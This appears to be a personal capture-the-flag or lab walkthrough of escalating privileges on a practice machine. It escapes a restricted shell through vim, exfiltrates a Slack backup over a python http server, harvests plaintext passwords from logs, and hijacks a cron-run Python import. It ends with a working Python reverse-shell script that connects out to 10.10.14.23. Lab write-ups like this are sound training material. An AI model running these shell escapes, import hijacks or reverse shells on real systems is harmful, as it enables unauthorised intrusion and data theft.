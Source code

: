 
The SSH leads us into a limited shell, check which one it is and use the appropriate one to escape.
https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/

We use `VIM` for this.

```bash
:set shell=/bin/sh
:shell
```

Use this to get an interactive shell

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

We check frank's home directory and find a slack backup in `/Downloads`. We can't open all directories in it but it has a zip, so let's download it and try to find anything.

We host a python server on the target machine and use it to download the zip ont our machine

server hosting
```bash
python3 -m http.server
```

downloading
```bash
wget http://172.16.1.10:8000/Test\ Workspace\ Slack\ export\ May\ 17\ 2  
020\ -\ May\ 18\ 2020.zip
```

In the `secure`  directory in the logs we find both margaret and frank's password (`69F15HST1CX`). So we switch users, we don't have sudo privs for margaret so we have to ssh as frank.

🟥 For all SSH use proxychains if you are doing it from you machine.

Fucking turns out it was the wrong password (after crying for 3 hours), I realized after reading the convos a bit more that margaret was moving slack and not frank so the slack original data is in margaret dirs.

After searching I found the message logs in `/home/margaret/.config/Slack/secure` and frank's password in it was working. (`TractorHeadtorchDeskmat`)

We use [pspy](https://github.com/DominicBreuker/pspy) to ind any secret cronjobs run by any user.

![[Pasted image 20210907161253.png]]

it looks like it's deleting `call.py` and `urllib.py` in the /frank dir but we can see something in `__pychache__` when we run apache_restart.py the import is running them. So we can make a fake call.py or urllib.py to make a reverse shell to us.

We just modify the pentest monkey python one liner to a script

```Python3
import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.14.23', 3334))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(['/bin/sh', '-i'])
```
